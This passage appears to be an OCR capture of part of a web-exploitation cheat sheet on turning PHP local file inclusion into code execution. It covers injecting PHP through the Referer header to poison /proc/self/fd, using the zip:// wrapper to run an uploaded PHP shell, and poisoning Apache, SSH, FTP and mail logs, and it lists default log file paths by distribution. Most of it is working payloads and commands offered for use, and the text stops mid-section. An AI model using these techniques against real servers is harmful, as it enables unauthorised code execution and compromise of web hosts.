 ## 8. Using /proc/self/fd

brute force the fd until you see “referer” /proc/self/fd/{number} then

```
curl -H "Referer: <?php phpinfo(); ?>" http://target.com
```

## 9. Using zip

Upload a ZIP file containing a PHP shell compressed and access:

```
example.com/page.php?file=zip://path/to/zip/hello.zip%23rce.php
```

## 10. Using log files with controllable input like:

```
  . /var/log/apache/access.log
  . /var/log/apache/error.log
  . /var/log/vsftpd.log
  . /var/log/sshd.log
  . /var/log/mail
```

# 5 Common files location

---

https://wiki.apache.org/httpd/DistrosDefaultLayout  
**Common log file location**  
**Ubuntu, Debian**

```
/var/log/apache2/error.log  
/var/log/apache2/access.log  
```

**Red Hat, CentOS, Fedora, OEL, RHEL**

```
/var/log/httpd/error_log  
/var/log/httpd/access_log  
```

**FreeBSD**

```
/var/log/httpd-error.log  
/var/log/httpd-access.log  
```

**Common Config file location**

check any restriction or hidden path on accessing the server
